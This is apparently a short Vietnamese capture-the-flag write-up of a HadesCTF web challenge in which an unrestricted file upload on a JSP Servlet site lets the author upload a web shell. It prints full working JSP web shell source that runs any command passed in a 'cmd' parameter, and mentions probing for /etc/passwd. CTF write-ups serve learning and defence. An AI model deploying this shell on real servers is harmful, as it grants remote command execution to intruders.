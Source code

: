 ```yaml
---
layout: post
title:  "[HadesCTF] JSP Servlet Upload File"
description: Write-up Web Exploitation HadesCTF
tags: writeup
---
```

# Web Vulnerability: File upload on JSP Servlet
## Overview
Đề bài:

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-27%5BHadesCTF%5D-JSP-Servlet-Upload-File/2021-02-27-%5BHadesCTF%5D-JSP-Servlet-Upload-FIle-1.png?raw=true)  

Web cho phép ta upload file. Mình đã thử upload bất kì với file extensions cũng đều thành công.  
![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-27%5BHadesCTF%5D-JSP-Servlet-Upload-File/2021-02-27-%5BHadesCTF%5D-JSP-Servlet-Upload-FIle-2.png?raw=true)  
Nhưng kì lạ ở chỗ là đến đoạn này, file được upload lên nhưng mình không biết view file như thế nào, mình thử dùng `dirsearch` để scan thử xem còn path nào mà mình có thể khai thác nữa không.  

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-27%5BHadesCTF%5D-JSP-Servlet-Upload-File/2021-02-27-%5BHadesCTF%5D-JSP-Servlet-Upload-FIle-3.png?raw=true)  

Như trong ảnh trên, tool đã scan được khá nhiều path có ích. Nhưng path khiến mình chú ý đến nhất là `/etc/passwd`. Lúc này mình liền nhanh tay vào trang thử nhưng liền bị refuse.  

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-27%5BHadesCTF%5D-JSP-Servlet-Upload-File/2021-02-27-%5BHadesCTF%5D-JSP-Servlet-Upload-FIle-4.png?raw=true)  

Trong cái rủi có cái xui, tuy là vào trang kết quả trả về 404 nhưng ở đây mình phát hiện được rằng bài được code bằng Java và sử dụng JSP Servlet. Tới đây, mình đã thử upload một con web shell execute code và đương nhiên thành công.
Tiếp đó mình thử mở đi đến con shell vừa up theo đường dẫn `/webapp/uploads/filename`. Nói sơ qua về code của shell là tạo form cho phép nhập và thực thi command linux.  
```
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```   
Và kết quả đúng như mong đợi...  
![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-27%5BHadesCTF%5D-JSP-Servlet-Upload-File/2021-02-27-%5BHadesCTF%5D-JSP-Servlet-Upload-FIle-5.png?raw=true)  
Xin lỗi người đang đọc vì đã viết khá sơ xài vì vừa bị xoá file markdown không hiểu vì sao, chắc do định mệnh :))  
Have a good day!!! 


